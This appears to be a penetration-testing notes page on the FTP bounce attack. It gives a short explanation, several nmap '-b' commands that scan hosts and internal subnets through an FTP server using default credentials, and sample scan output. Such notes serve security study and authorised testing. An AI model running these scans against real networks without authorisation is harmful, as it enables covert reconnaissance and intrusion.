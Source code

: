 # FTP Bounce Attack

* a network attack that uses FTP servers to deliver outbound traffic to another device on the network.
  * The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server



<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Attack

* [nmap.md](nmap.md "mention")

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

```
nmap -b <name>:<pass>@<ftp_server> <victim>
```

```
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
```

```
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

## Reference

* https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack
